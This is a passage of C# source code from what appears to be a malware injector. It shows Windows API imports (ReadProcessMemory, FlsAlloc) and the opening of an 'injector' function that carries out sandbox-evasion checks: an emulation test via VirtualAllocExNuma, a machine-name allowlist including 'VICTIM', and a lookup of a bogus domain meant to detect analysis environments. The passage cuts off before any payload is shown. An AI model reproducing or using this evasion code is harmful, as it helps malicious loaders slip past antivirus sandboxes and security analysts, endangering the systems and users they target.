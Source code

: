             // BEGIN DEBUG (imports)
            [DllImport("kernel32.dll", SetLastError = true)]
            static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);

            [DllImport("msvcrt.dll", CallingConvention = CallingConvention.Cdecl)]
            static extern int memcmp(byte[] b1, byte[] b2, UIntPtr count);
            [DllImport("kernel32.dll", SetLastError = true)] static extern IntPtr FlsAlloc(IntPtr callback);

            static bool CompareByteArray(byte[] b1, byte[] b2)
            {
                return b1.Length == b2.Length && memcmp(b1, b2, (UIntPtr)b1.Length) == 0;
            }
            // END DEBUG

            public static void injector()
            {
                // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

                //PE name check:
                //string exename = "BasicRunner";
                //if (Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]) != exename)
                //{
                //    Console.WriteLine(Path.GetFileNameWithoutExtension(Environment.GetCommandLineArgs()[0]));
                //    return;
                //}

                //Machine name check:
                if (Environment.MachineName != "DEVELOPMENT" && Environment.MachineName != "VICTIM")
                {
                    Console.WriteLine(Environment.MachineName);
                    return;
                }

                //Web request to fake domain check:
                try
                {
                    HttpWebRequest req = (HttpWebRequest)WebRequest.Create("http://sldkfjsdkfjdskfjsldkfjlsdjfyyue.com/");
                    HttpWebResponse res = (HttpWebResponse)req.GetResponse();
                    if (res.StatusCode == HttpStatusCode.OK)
                    {
                        return;
                    }
                }
                catch (WebException we)
                {
                    Console.WriteLine("\r\nWeb Exception as Expected. Error: {0}", we.Status);
                }
